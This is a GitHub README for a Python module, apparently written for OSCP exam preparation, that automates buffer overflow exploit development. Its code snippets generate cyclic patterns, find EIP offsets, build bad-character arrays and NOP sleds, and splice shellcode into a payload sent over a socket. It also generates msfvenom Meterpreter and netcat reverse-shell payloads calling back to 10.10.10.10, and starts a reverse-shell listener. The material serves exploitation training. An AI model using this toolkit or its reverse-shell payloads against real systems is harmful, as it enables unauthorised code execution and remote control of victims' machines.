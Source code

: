 # buffero

Buffer Overflow Exploit Developement Pyton module

I have created this module while I'm preparing for OSCP. This module helps the Buffer Overflow exploit developement in python language.

# How to use buffero module

This summary will describe how to use buffero

### Generate Cyclic Pattern

The **generate_pattern** function will generate an unique pattern, same as **msf-pattern_create**
```python
import buffero

# Generate 1200 length of Cyclic pattern
# Equivalent with msf-pattern_create -l 1200
pattern = buffero.generate_pattern(1200)
# pattern = Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...
```

---

### Get the offset of the EIP value

The **get_pattern_offset** method will help to find the right offset value
```python
import buffero
    
EIP = '386F4337'	# The value of the EIP register
offset = buffero.get_pattern_offset(1200,EIP)
# offset = 2003
```
---

### Generate Bad Characters

```python
import buffero
    
badchararr = [0x00]	# Specify \x00 as a bad character
    
# Generate a bad character array without the \x00 character
bc = buffero.generate_bctest(badchars=badchararr)
```
Additionally, the **generate_bctest** function will write a result into a file which name is **bctest.bin**. This file is easily examine by xxd command.
```bash
root@kali:~# xxd bctest.bin
00000000: 0102 0304 0506 0708 090a 0b0c 0d0e 0f10  ................
00000010: 1112 1314 1516 1718 191a 1b1c 1d1e 1f20  ................
00000020: 2122 2324 2526 2728 292a 2b2c 2d2e 2f30  !"#$%&'()*+,-./0
00000030: 3132 3334 3536 3738 393a 3b3c 3d3e 3f40  123456789:;<=>?@
00000040: 4142 4344 4546 4748 494a 4b4c 4d4e 4f50  ABCDEFGHIJKLMNOP
00000050: 5152 5354 5556 5758 595a 5b5c 5d5e 5f60  QRSTUVWXYZ[\]^_`
00000060: 6162 6364 6566 6768 696a 6b6c 6d6e 6f70  abcdefghijklmnop
00000070: 7172 7374 7576 7778 797a 7b7c 7d7e 7f80  qrstuvwxyz{|}~..
00000080: 8182 8384 8586 8788 898a 8b8c 8d8e 8f90  ................
00000090: 9192 9394 9596 9798 999a 9b9c 9d9e 9fa0  ................
000000a0: a1a2 a3a4 a5a6 a7a8 a9aa abac adae afb0  ................
000000b0: b1b2 b3b4 b5b6 b7b8 b9ba bbbc bdbe bfc0  ................
000000c0: c1c2 c3c4 c5c6 c7c8 c9ca cbcc cdce cfd0  ................
000000d0: d1d2 d3d4 d5d6 d7d8 d9da dbdc ddde dfe0  ................
000000e0: e1e2 e3e4 e5e6 e7e8 e9ea ebec edee eff0  ................
000000f0: f1f2 f3f4 f5f6 f7f8 f9fa fbfc fdfe ff    ...............
```

---

### Generating NOP Sled


```python
import buffero

nops = buffero.generate_nop_sled(16)
# nops = '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'

```

---

### Packing the JMP Address

```python
import buffero

# same as struct.pack('<I',0x625011af)
# but in this case the result will be an str
addr = buffero.pack('<I',0x625011af)

```
---

### Spawning a Reverse Shell

```python
import buffero

# Listening on 0.0.0.0:9001
buffero.spawn_rev_shell(9001)
```

---

### Encoding and Decoding

In python3 socket.send() will work only byte type array. The encode method will encode the given string into 'Latin-1' encoded byte array.
The decode method will do the same but reverse order. Generate a string with 'Latin-1' encoding from byte array. This is useful when shellcode concatenated with the other pieces of the payload.

```python
import buffero

shellcode  = ""
shellcode += b"\xbb\x6a\xf5\xdd\x01\xd9\xe8\xd9\x74\x24\xf4"
...
shellcode += b"\x41\xa1\x25\xeb\xda\x44\x49\x58\xda\x4c"

# Decoding to string the given bytes type shellcode.
payload += offset + eip + padding + buffero.decode(shellcode) + suffix

# Encoding to bytes type array the concatenated payload
s.send(buffero.encode(payload))
```

---

### Generating Shellcode with MsfVenom

This module will use the MsfVenom application which installed on Kali systems by default. The purpose of this module to fasten the developement, avoiding to leave the developement platform, while generating shellcode, and copy and paste it. This module is not too smart but works well, if the requirements are installed.
Important note, the format must be python.
```python
import buffero

msf = msf_shellcode()

# Run custom MsfVenom command and get the shellcode back
# No need to specify the 'msfvenom' word
shellcode = msf.run_msfvenom_command('-p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9001 EXITFUNC=thread -f python')
# shellcode = \xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b...

# Use predefined functions for fasten the developement
# Keyword arguments are enabled.
# Create POP CALC for determine the exploit is working.
shellcode = msf.generate_popcalc(exitfunc="thread",badchars="\\x00\\x0a")	# Escaping bad caharacters is important especially NULL sequence

# Create Netcat catchable Reverse shell.
shellcode = msf.generate_ncrev_shell(exitfunc="thread",badchars="",lhost="",lport="")
```

